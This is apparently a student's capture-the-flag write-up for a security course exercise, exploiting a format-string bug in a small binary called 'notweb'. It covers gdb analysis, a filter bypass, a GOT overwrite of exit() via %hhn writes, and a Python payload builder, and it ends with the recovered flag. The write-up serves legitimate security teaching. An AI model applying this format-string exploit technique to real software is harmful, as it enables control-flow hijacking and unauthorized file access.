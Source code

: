 ```yaml
---
layout: post
title: 'notweb Writeup'
category: memo
slug: notweb-writeup
---
```

Security Programming Homework 3-2

## Finding Weak Points

After using gdb to do the dynamic analysis, I found that function `main()`
will call function `get_request()`. So I set the break point at the line
which calls `get_request()` and check it out step by step. The program calls
`fgets()` to get the input, and using `strtok()` to chop the string
according to the spaces. If the whold string only consists of one single word,
it calls exit to terminate the program. Otherwise the program will go on.

```nasm
08048a51:       89 45 ec                mov    DWORD PTR [ebp-0x14],eax
08048a54:       83 7d ec 00             cmp    DWORD PTR [ebp-0x14],0x0
08048a58:       75 0c                   jne    8048a66 <get_request+0x90>
08048a5a:       c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
08048a61:       e8 ea fb ff ff          call   8048650 <exit@plt>
```

The variable `buf` sucks in the whole line of input then splits the input
into tokens according to space and colon. A diagram is showed below:

```text
ORIGINAL INPUT:

GET /echo:%x%x%x%x%x
|   |     |
|   |     v
|   v     stored in local variable in ``main()``, using ``s`` as example
v   length of the string is 5, the first character is stored in ``file``
abandoned
```

And there is a piece of code that contains `printf(buf)` in the function
`echo()`. With this, exploiting the vulnerability of format string to leak
arbitrary memory is easy. Even write some values into memory could be possible.

## Weird Filter

In `get_request()`, the first n bytes of global variable `buf` will be
eliminated before return. This will make the second for loop in
`filter_format()` has no effect. Because the first n bytes of global variable
`buf` are already been cleared with zeros, the length of the string is zero.
Thus the for loop will ended up immediately. As a result, the global `buf`
remains, '%' is not replaced with '\_'.

In function `echo()`, after calling `filter_format()`, the string which is
after ':' ('%' have already been replaced with '\_') will be copied to the front
end of the global variable `buf`. This could make the string which is after
':' of the global variable `buf` ('%' are not replaced with '\_') being
overlaped. So extra calculation must be taken to assure the target string not
being messed, if someone want to exploit the program using format string.

According to the example string which is entered into the program, the value in
the global variable `buf` before calling `printf(buf)` in function
`echo()` is:

```text
_x_x_x_x_x\nx%x%x%x%x\n
```

The result showed up is:

```text
_x_x_x_x_x
xfffe4f4cbf7f4b3d00
```

If the length of the string after ':' (including '\n') is exactly 10, it can
overwrite the byte which contains ':' (':' is replaced with string terminator
because of `strtok`). In the end, the whole string is connected again, rear
part is our original format string.

Padding some trival characters between ':' and the format string to ensure to
connect the global variable `buf` again, if the lenth of the string is less
than 10.

```text
GET /echo:aaaaaaa%p
```

For the string which is longer than 10, one must pad some trival characters to
make sure the format string won't be covered by something useless by the
fxxking program logic.

```text
GGET /echo:%p%p%p%p%p
```

## Objective

The return address is at `$esp+0x1c` in `echo()`, that is to say, using
`%7$p` could leak the return address (of course the length must be at least
10 characters). Our objective is to modify the address (0x0804917f) with the
address of function `normal_file()` (0x08048c8f). Besides, the content of the
global variable `file` should be "flag". With all of this, the function
`normal_file()` can have the ability of opening the file of the flag and
reading that file. The gods send nut to those who have no teeth, the server
side has already enabled ASLR, so we cannot know the location of the return
address in the stack. Thus, exploitation using format string to overwrite the
return address in the stack is not practical.

However, there's another way to control the `eip` though the return address
cannot be modified. The Global Offset Table (GOT) might be a good candidate.
The offset of the function `fflush()` in the GOT is 0x0804b018. The content
in that is the actual position of `fflush()` (0xf7e78760) after GLIBC was
dynamically loaded into the program. So we just have to replace the address
with the address of `normal_file()`. But again, the gods send nut to those
who have no theeth, there is a `fflush()` in the function `normal_file()`.
So doing this will cause an endless loop. A better choice is to modify the
address of the function `exit()` in the GOT to avoid that. The offset of the
function `exit()` in the GOT is 0x0804b03c.

```bash
$ readelf -r notweb

Relocation section '.rel.dyn' at offset 0x49c contains 3 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
 0804affc  00000c06 R_386_GLOB_DAT    00000000   __gmon_start__
 0804b080  00001805 R_386_COPY        0804b080   stdin
 0804b0a0  00001605 R_386_COPY        0804b0a0   stdout

Relocation section '.rel.plt' at offset 0x4b4 contains 21 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
 0804b00c  00000107 R_386_JUMP_SLOT   00000000   strstr
 0804b010  00000207 R_386_JUMP_SLOT   00000000   strcmp
 0804b014  00000307 R_386_JUMP_SLOT   00000000   printf
 0804b018  00000407 R_386_JUMP_SLOT   00000000   fflush
 0804b01c  00000507 R_386_JUMP_SLOT   00000000   memcpy
 0804b020  00000607 R_386_JUMP_SLOT   00000000   bzero
 0804b024  00000707 R_386_JUMP_SLOT   00000000   fgets
 0804b028  00000807 R_386_JUMP_SLOT   00000000   fclose
 0804b02c  00000907 R_386_JUMP_SLOT   00000000   chdir
 0804b030  00000a07 R_386_JUMP_SLOT   00000000   fseek
 0804b034  00000b07 R_386_JUMP_SLOT   00000000   fread
 0804b038  00000c07 R_386_JUMP_SLOT   00000000   __gmon_start__
 0804b03c  00000d07 R_386_JUMP_SLOT   00000000   exit
 0804b040  00000e07 R_386_JUMP_SLOT   00000000   strlen
 0804b044  00000f07 R_386_JUMP_SLOT   00000000   __libc_start_main
 0804b048  00001007 R_386_JUMP_SLOT   00000000   write
 0804b04c  00001107 R_386_JUMP_SLOT   00000000   ftell
 0804b050  00001207 R_386_JUMP_SLOT   00000000   fopen
 0804b054  00001307 R_386_JUMP_SLOT   00000000   strncpy
 0804b058  00001407 R_386_JUMP_SLOT   00000000   strtok
 0804b05c  00001507 R_386_JUMP_SLOT   00000000   sprintf
```

Besides controlling the `eip`, the global variable `file` should be set to
the string "flag", too.

## Exploitation

The key point is that how to design the payload and keep the original format
string from destroying by the filter. The following is the main part of the
exploitation code.

```python
# exit()'s offset in GOT showed up in stack fram
# normal_file() @ 0x08048c8f
# total 16 bytes
addr1  = struct.pack('<I', 0x0804b03c) # 0x8f
addr1 += struct.pack('<I', 0x0804b03d) # 0x8c
addr1 += struct.pack('<I', 0x0804b03e) # 0x04
addr1 += struct.pack('<I', 0x0804b03f) # 0x08

# file's address showed up in stack frame
# file @ 0x080637e0
# total 16 bytes
addr2  = struct.pack('<I', 0x080637e0) # 'f': 0x66 102
addr2 += struct.pack('<I', 0x080637e1) # 'l': 0x6c
addr2 += struct.pack('<I', 0x080637e2) # 'a': 0x61
addr2 += struct.pack('<I', 0x080637e3) # 'g': 0x67

inject1 = '%7c%15$hhn%253c%16$hhn%120c%17$hhn%4c%18$hhn' # 44 bytes
inject2 = '%78c%30$hhn%6c%31$hhn%245c%32$hhn%6c%33$hhna' # 44 bytes

padding = 'G'*110

payload = padding + 'GET /echo:' + addr1 + inject1 + addr2 + inject2 + '\n'
```

## Flag

The flag is:

```text
SECPROG{But_PWN_!s_e@sier_th@n_WEB_XDDDD}
```
